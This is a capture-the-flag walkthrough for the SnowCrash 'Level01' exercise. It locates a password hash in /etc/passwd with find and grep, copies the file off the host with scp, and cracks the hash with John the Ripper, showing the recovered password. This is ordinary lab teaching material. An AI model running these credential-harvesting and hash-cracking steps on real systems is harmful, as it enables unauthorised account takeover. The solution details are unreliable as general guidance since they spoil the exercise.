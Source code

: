 # Level01
## Step by step
### 1. Search for files containing `flag01`
Use the `find` command to search for all regular files containing the word `flag01`. Suppress errors by redirecting them to `/dev/null`:
```bash
> find / -type f -exec grep -H "flag01" {} + 2>/dev/null

/etc/group:flag:x:1001:flag00,flag01,flag02,flag03,flag04,flag05,flag06,flag07,flag08,flag09,flag10,flag11,flag12,flag13,flag14
/etc/group:flag01:x:3001:
/etc/passwd:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
Binary file /proc/2147/task/2147/cmdline matches
Binary file /proc/2147/cmdline matches
/rofs/etc/group:flag:x:1001:flag00,flag01,flag02,flag03,flag04,flag05,flag06,flag07,flag08,flag09,flag10,flag11,flag12,flag13,flag14
/rofs/etc/group:flag01:x:3001:
/rofs/etc/passwd:flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
The file `/etc/passwd` contains a hash for `flag01`.

---

### 2. Extract the hash from `/etc/passwd`
The relevant line from `/etc/passwd` is:
```
flag01:42hDRfypTqqnw:3001:3001::/home/flag/flag01:/bin/bash
```
The hash is `42hDRfypTqqnw`.

---

### 3. Download the file to your local machine
Use `scp` to securely copy the `/etc/passwd` file to your local machine. Replace `level01@127.0.0.1` with your actual username and IP if necessary:

```bash
> scp -P 4243 level01@127.0.0.1:/etc/passwd .
```

---

### 4. Crack the hash using `John the Ripper`
Run a Docker container with a Debian image to install and use `John the Ripper`:

```bash
> docker run --rm -it --name SnowCrashFlag01 -v ${PWD}:/Password debian bash
> apt update; apt install john -y
> john /Password/passwd --show

flag01:abcdefg:3001:3001::/home/flag/flag01:/bin/bash

1 password hash cracked, 0 left
```
---

### 5. Conclusion
The flag for `flag01` is:

